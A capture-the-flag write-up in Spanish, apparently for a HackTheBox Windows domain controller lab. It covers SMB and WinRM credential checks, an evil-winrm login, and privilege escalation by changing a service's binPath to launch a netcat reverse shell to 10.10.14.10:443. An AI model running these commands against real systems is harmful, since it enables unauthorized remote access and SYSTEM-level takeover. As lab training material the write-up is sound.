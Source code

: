 ## Summary

- IP -> 
- Ports -> TCP (53,80,88,135,139,389,445,), UDP (idk)
- OS ->  Windows 
- Services & Applications
    - 80  -> HTTP microsoft IIS/10.0
    -  -> 

## Recon
Windows IIS (10.0)
❯ **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80

Nos ponemos a explorar la pagina web y encontramos que podiamos hacer que la pagina al momento de hacerle Update, esta apuntara a nuestra IP y asi con nc ver el contenido y nos devuelve un User y una Passwd

❯ **crackmapexec smb {ip_targeted} -u {‘user’} -p {‘password’}** Para el servicio **445/tcp smb** abierto podemos utilizar el siguiente comando para saber si tenemos credenciales validas, por lo que si nos muestra un **(****+****)** quiere decir que si son validas, ademas de que nos da informacion de lo que hay en ese servico (nombre, Window 10.0, dominio, signing=true)(u=user, p=password) Este comando es usado para validar aunque tenga mas aplicaciones.

❯ **smbclient -L** **{ip_targeted}** Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)

❯ **smbmap -H** **{ip_targeted}** Herramienta elternativa para ver si nos reporta algo mas

❯ **crackmapexec winrm {ip_targeted} -u {‘user’} -p {‘password’}**
Despues de saber que las credenciales son validas con crackmapexec, podemos utilizar el puerto de winrm para saber si podemos entrar, pero antes debemos saber si el usuario esta en el grupo **Remote management users**, para saber si pertenece nos debe poner un (Pwn3d!) y asi podernos autenticar.


## User
Ahora podemos usar el puerto 5985 para poder ingresar con WINRM
❯ **evil-winrm -i ❮IP_Target❯ -u ❮Username❯ -p ❮Passwd❯** Con este comando nos conecta al servicio de winrm y podemos entrar a la maquina

Una vez adentro buscamos la flag del usuario user.txt en Desktop

Ahora nos disponemos a probar comandos para ver como poder escalar privilegios en la maquina Windows
❯ **whoami /priv** Miramos los privilegios que tenemos  
	**SeInpersonatePrivilege** En el cual podriamos usar RottenPotato o  JuicyPotato 

❯ **Systeminfo** 
	Nos copiamos todo lo que nos salga con ese comando y usaremos un programa llamado '' para deterctar vulnerabilidades en un equipo Windows, todo desde nuestra maquina Linux con el archivo que hemos creado con ese informacion obtenida.

❯ **net user < USER>** Nos da detalles de nuestro usuario y vemos a que grupos pertenecemos. El grupo que nos interesa en este caso es **Server Operators** ya que en el podemos administrar controladores de dominio, loggearse a un servicio interactivo, asi como crear, borrar recursos compartidos en la red, iniciar, parar servicios, back up, restaurar archivos, formatear el disco duro de la computadora y apagarla. Por lo que debemos verificar sipertenecemos a este grupo.

Ahora buscamos en Google la parte de Server Operators para ver que significa y que podemos hacer.
Los miembros de **Server Operators** pueden administrar el domain controller. Pueden hacer las siguientes acciones, iniciar sesión en un servidor de forma interactiva, crear y eliminar recursos compartidos de red, iniciar y detener servicios, realizar copias de seguridad y restaurar archivos, formatear la unidad de disco duro de la computadora y apagar la computadora. Este grupo no puede ser renombrado, eliminado o removido.

Por lo que nos ponemos a utilizar Netcat para poder entrar 
Buscamos el archivo nc.exe en la maquina atacante para despues subirlo a la maquina victima en el directorio Temp, ya que en ese directorio hay permisos de lectura y escritura.

❯ **upload /home/omar/Docume/HTB/nc.exe** Subimos el archivo del Netcat a la maquina victima 

Despues podemos crear una revershell y ver si podemos crear un servicio 
❯ **sc.exe create** **reverse** **binPath=”C:\\Users\\svc-printer\\Documents\\nc.exe -e cmd 10.10.14.10 443”** Le decimos al equipo victima que cuando arranque el servicio queremos que ejecute el netcat y nos ejecute una revershell contra el nuestro equipo por el puerto 443. (create=creamos el servicio, reverse=nombre del servicio) 

Como no podemos crear un servicio, nos ponemos a manipular el binPath de uno ya existente.
❯ **Services** Para ver los servicios que estan corriendo en Windows y asi ver si podemos cambiarle el binPath a uno, esto dependiendo si nos encontramos en el grupo 

Utilizamos un servicio de los que ya estan corriendo en esa maquina victima y le cambiaremos el binPath para que primero lo paremos y despues cuando lo arranquemos este nos ejecute el netcat.
❯ **sc.exe config VMTools binPath=”C:\\Users\\svc-printer\\Documents\\nc.exe -e cmd 10.10.14.10 443”** Colocaremos un servicio que nos deje cambiar su binPath, el servicio va despues de config. (Nos saldra success)

## Root

Despues paramos el servicio que hemos reconfigurado y lo volvemos a iniciar para que se ejecute el netcat.
❯ **sc.exe stop VMTools** Paramos el servicio
❯ **sc.exe start VMTools** Iniciamos el servicio

Nos damos cuenta que ya somo **NT Autority System** y tenemos los privilegios de administrador, por lo que nos dirigimos a buscar la flag en el desktop de root.
❯ **cd C:\\Users\\Administrator\\Desktop**
❯ **dir** para mirar que hay dentro del directorio
❯ **type** **root.txt** para mirar el contenido de un archivo


